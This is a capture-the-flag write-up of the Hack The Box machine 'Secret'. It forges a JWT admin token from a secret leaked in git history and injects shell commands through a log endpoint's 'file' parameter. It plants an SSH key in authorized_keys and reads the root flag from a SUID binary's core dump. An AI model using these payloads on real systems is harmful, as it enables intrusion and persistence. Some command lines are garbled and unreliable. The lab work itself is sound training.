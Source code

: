 ## Info

Secret is an easy level linux box hosted on HTB, which focuses on JWT exploitation and remote command injection.

IP: 10.10.11.120


# Fingerprinting

Let's start out with an nmap scan.

```
nmap -sC -sV $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 18:58 EST
Nmap scan report for secret.htb (10.10.11.120)
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DUMB Docs
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.10 seconds
```

Not too much out of the usual here, lets take a look at the website.

[image]: 

Looks to be some sort of API that we have to interact with.

Let's scroll down to the bottom to download the source code, and start to follow the documentation.

In order to register a user, we must send a POST request to `http://$IP:3000/api/user/register`, along with some JSON data in order to create our account. I always like to stick to the format, so we'll keep our email domain as dasith.works
`curl -X POST -H 'Content-Type: application/json' -d '{"name":"userinky", "email":"inky@dasith.works", "password":"userinky"}' http://10.10.11.120/api/user/register

{"user":"userinky"}`

The post request returns our username, so it seems to have gone through, we now have a valid account! Let's login!

`curl -X POST -H 'Content-Type: application/json' -d '{"email":"inky@dasith.works", "password":"userinky"}' http://10.10.11.120:3000/api/user/login

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidXNlcmlua3kiLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtz![img1-min](https://user-images.githubusercontent.com/72148770/160254513-ad728559-3d6f-405b-bade-759fe33c8b50.png)
IiwiaWF0IjoxNjQ2Njk4NDI1fQ.zh32hjab2xHlJd-WTDVuzksBneaenJpeJMLtFlExEME `

Now we have a valid JWT token! Let's head over to https://jwt.io in order to take a look at what it does!

<!img2.png>

Let's try accessing the api/priv endpoint with our new token.

`curl -H 'auth-token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidXNlcmlua3kiLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.bow0nys_azNS3CtuqQvmwWWEGTuhpk8sMZHMsHy9heo' http://$IP:3000/api/priv

Access Denied`

Doesn't seem to work. When in doubt, check the source code!

After doing a quick, easy scan of the source code, I couldn't find anything. Maybe something in a previous commit?

`git diff HEAD~2

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret`

Aha! The secret was removed in a previous version. Let's add that to the JWT decoder, (as well as changing my name to theadmin, you read the source code, right?) and make another request.

`curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' http://$IP:3000/api/priv/

{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

There we go! I was expecting to get the user flag here, but we're still not there, so lets take a look around. After re-examining, the source code for a while, I discovered a potential RCE with the GET parameter.

## Foothold

`url -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' 'http://10.10.11.120/api/logs?file=index.js;id'`

Looks like we're running under user dasith. We can leverage this RCE to add our own SSH keys to get a full shell on the machine. This is generally a formatting nightmare, as we need to make sure it's still in URL encoding. Starting out, we'll generate a new SSH keyset.

`ssh-keygen -f secret.htb

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in secret.htb
Your public key has been saved in secret.htb.pub
The key fingerprint is:
SHA256:LJetZl7jSHNO5IcXnXpdkRxfVmYpcSNSl1YebH4PJAQ kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|          E+o+o*%|
|            o.*@B|
|             o=+o|
|       . o   ..oo|
|      . S o . o.+|
|       o + . o .o|
|        * B + . .|
|       = O + .   |
|        o o      |
+----[SHA256]-----+
`
Now, to make things easier, let's export our SSH key to a variable.

`export SSHKEY=$(cat secret.htb.pub)`

Once that's done, we can begin crafting our command.

`curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' --data-urlencode "file=index.js;echo $SSHKEY >> /home/dasith/.ssh/authorized_keys"'http://10.10.11.120/api/logs'`

Doesn't seem to work. After a while, finally found the issue. Since we have data, curl normally reads this as a POST request. Make sure it's a GET request, and we can ssh on in with

`ssh -i secret.htb dasith@secret.htb`

And we're in! User flag acquired, time to look at privilege escalation vectors.

After doing some poking around in the root directory, I found the `count` binary running with suid privileges. Time for some light binary exploitation.

Run the binary with `./count` and we can see what's up. The flag is always in /root/root.txt. so lets have that read it out for us. Unfortunately, we only get an access denied message. Next step is to attempt a memory dump. Let's run count again, but this time, background it when it asks us to save the results, then kill it and see if it drops a core dump for us to look through.


`dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[2]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   3545 pts/3    00:00:00 bash
   3654 pts/3    00:00:00 count
   3657 pts/3    00:00:00 ps
dasith@secret:/opt$ kill -BUS 3654
dasith@secret:/opt$ fg
./count
Bus error (core dumped)`

Crashes are usually saved in /var/crash, so let's go take a look!

Seems like we need to unpack the crash, I prefer apport, so let's unpack it and move it to a different directory.

`apport-unpack /var/crash/_opt_count.1000.crash /tmp/countcrash`

This is a binary file, so a dump would be pretty hard to read. Let's try `string`-ing CoreDump.

And there it is!

This works because it makes an insecure call, so we have the ability to view it in plaintext if we crash it before the program finishes.

We have our root flag, and have succesfully pwned Secret!
